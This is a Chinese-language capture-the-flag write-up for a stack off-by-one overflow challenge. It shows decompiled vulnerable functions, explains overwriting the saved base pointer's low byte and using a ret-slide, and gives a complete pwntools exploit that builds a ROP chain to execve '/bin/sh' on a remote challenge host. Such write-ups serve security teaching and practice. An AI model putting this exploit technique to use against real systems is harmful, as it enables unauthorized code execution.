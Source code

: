 ## off-by-one
这道题是单字节溢出漏洞，这个漏洞大多数是在堆上进行考查，栈上的不多，而这里这道题目就是在栈上的利用。

__漏洞点__:

```
__int64 sub_400BD2()
{
  int v0; // eax
  char buf; // [rsp+2h] [rbp-Eh]
  char v3; // [rsp+Bh] [rbp-5h]
  int v4; // [rsp+Ch] [rbp-4h]

  sub_410C30("how much do you have to say?");
  sub_44A140(0, &buf, 9uLL);  //把v0或者v4读入存入rax
  v3 = 0;
  sub_40DD00((__int64)&buf); //buf进行异或操作，相当于把buf清零
  v4 = v0;
  if ( v0 <= 0 )
    return sub_410C30("That's not much to say.");
  if ( v4 <= 257 )  //v4<=0x101，最大值可取0x101
    return sub_400B73(v4);
  return sub_410C30("That's too much to say!.");
}
```
当输入的v4满足条件，即可进入sub_400b73(),看一下这个函数是干嘛的。

```
__int64 __fastcall sub_400B73(int a1)
{
  char buf; // [rsp+10h] [rbp-100h]

  buf = 0;
  sub_410C30("Ok, what do you have to say for yourself?");
  sub_44A140(0, &buf, a1);  //读a1个字节到buf，其中a1就是上边的v4，这里他可以取0x101，而buf的大小为0x100，就可以造成一个字节的溢出。
  return sub_40FFB0((unsigned __int64)"Interesting thought \"%s\", I'll take it into consideration.\n");
}
```

__利用漏洞__：

溢出的那一个字节可以覆盖ebp的最后一个字节，这里这个字节取多少，我们是可以控制的，如果我们用0x00来覆盖，如果原先的ebp是0xffffff30，当运行上述程序后
（造成单字节溢出漏洞后）即0xffffff30变成0xffffff00。那么我们是不是可以利用对这一个字节的修改而修改程序的执行？答案是可以的。可以使覆盖后的ebp指向
我们能控制的区域，这个区域在这里就是buf。就可以在buf中进行构造，执行我们想要程序执行的指令。</br>
【例】如果buf的起始地址为0xdcf0，ebp的内容为0xddf0，那么程序执行单字节溢出后（这里输入257即可造成单字节溢出漏洞），ebp就变成了0xdd00，就指到了buf
的区域，那么我们就可以从指向的地址开始构造我们的exp，这里用到了系统调用，可以通过调用system函数来获取程序shell。</br>
但是，通过调试，发现ebp的地址总是在变，有的时候覆盖后，指不到buf区域，还有如果指到了buf区域，指向的地址也在变，那么我们根据指向的地址进行构造的exp，
执行成功的概率就很低，那么我们怎么取解决这一变化，使得我们的执行的exp最大概率的运行成功。</br>

__NOP slide__: 我们怎么让程序运行到我们构造的exp那里？有一种技术叫NOP slide，即在写的exp前用大量的NOP填充，由于NOP是一条不会改变上下文的空指令，
因此执行完一堆NOP指令后，对exp的功能没有什么影响，且可以增加地址猜测范围，从一定程度上对抗ASLR，这里我们同样可以用ret指令不停的“滑”到下一条指令，总会
滑到我们构造的exp上。

## exp

```
from pwn import *
#context(os='linux', arch='amd64', log_level='debug')
p = remote("vps1.blue-whale.me",19903)

pop_rdi=0x0000000000400686
pop_rsi=0x0000000000410a93
pop_rdx=0x000000000044a155
pop_rax=0x0000000000415f04

bss_addr = 0x00000000006BC821
syscall_addr=0x0000000000474f15
main_addr=0x0000000000400BD2

ret_addr =0x0000000000400416

p.recvuntil("how much do you have to say?")
p.send("257")


payload = p64(ret_addr)*13           

payload += p64(pop_rdi)+p64(0)   
payload += p64(pop_rsi)+p64(bss_addr) 
payload += p64(pop_rdx)+p64(8)   
payload += p64(pop_rax)+p64(0)   
payload += p64(syscall_addr)         


payload += p64(pop_rdi)+p64(bss_addr)   
payload += p64(pop_rsi)+p64(0)     
payload += p64(pop_rdx)+p64(0)     
payload += p64(pop_rax)+p64(59)    
payload += p64(syscall_addr)           

payload += 'a'*8
#payload += p64(main_addr)        
payload += p8(0x00)                

p.recvuntil("Ok, what do you have to say for yourself?")
p.send(payload)
p.recvuntil("I'll take it into consideration.\n")
p.send("/bin/sh\x00")

p.interactive()
```


